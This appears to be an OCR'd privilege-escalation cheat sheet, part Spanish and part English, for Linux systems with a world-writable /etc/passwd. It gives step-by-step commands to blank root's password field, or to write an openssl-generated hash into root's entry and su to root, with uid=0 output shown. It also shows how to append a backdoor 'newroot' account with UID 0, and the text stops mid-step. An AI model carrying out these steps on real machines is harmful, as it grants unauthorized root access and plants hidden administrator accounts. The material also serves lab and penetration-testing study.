 ## /etc/shadow

La cuenta root en /etc/passwd suele estar configurada así:

```
root:x:0:0:root:/root:/bin/bash
```

<p>La "x" en el segundo campo indica a Linux que busque el hash de la contraseña
en el archivo /etc/shadow.</p>
<p>En algunas versiones de Linux, es posible simplemente borrar la "x", que
Linux interpreta que el usuario no tiene contraseña:</p>

```
root::0:0:root:/root:/bin/bash
```

## Privilege Escalation

1- Check the permissions of the /etc/passwd file:

```
$ ls -l /etc/passwd
-rw-r--rw- 1 root root 951 May 13 2017 /etc/passwd
```

2- Generate a password hash for the password “password”
using openssl:

```
$ openssl passwd "password"
L9yLGxncbOROc
```

3- Edit the /etc/passwd file and enter the hash in the
second field of the root user row:

```
root:L9yLGxncbOROc:0:0:root:/root:/bin/bash
```

4- Use the su command to switch to the root user:

```
$ su
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
```

5- Alternatively, append a new row to /etc/passwd to
create an alternate root user (e.g. newroot):

```
newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash
```

6- Use the su command to switch to the newroot user:
